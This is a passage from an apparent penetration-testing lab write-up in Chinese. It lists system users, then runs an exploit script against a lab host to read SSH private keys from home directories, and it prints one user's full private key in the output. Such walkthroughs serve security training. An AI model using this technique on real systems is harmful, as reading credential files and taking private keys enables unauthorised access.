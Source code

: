 ```
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:114:120:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
daniela:x:1001:1001:,,,:/home/daniela:/bin/bash
marcus:x:1002:1002:,,,:/home/marcus:/bin/bash
```
> User: `daniela` 和 `marcus`

##### 2.2 嘗試讀取 SSH 私鑰 (id_rsa)
```
┌──(chw㉿CHW)-[~/beyond]
└─$ python3 50420.py http://192.168.117.244 /home/marcus/.ssh/id_rsa
Invalid installer file name!!
                                                                                                               
┌──(chw㉿CHW)-[~/beyond]
└─$ python3 50420.py http://192.168.117.244 /home/daniela/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
QduOTpMIvVMIJcfeYF1GJ4ggUG4=
-----END OPENSSH PRIVATE KEY-----
```
> 成功讀取 daniela 的 SSH 私鑰
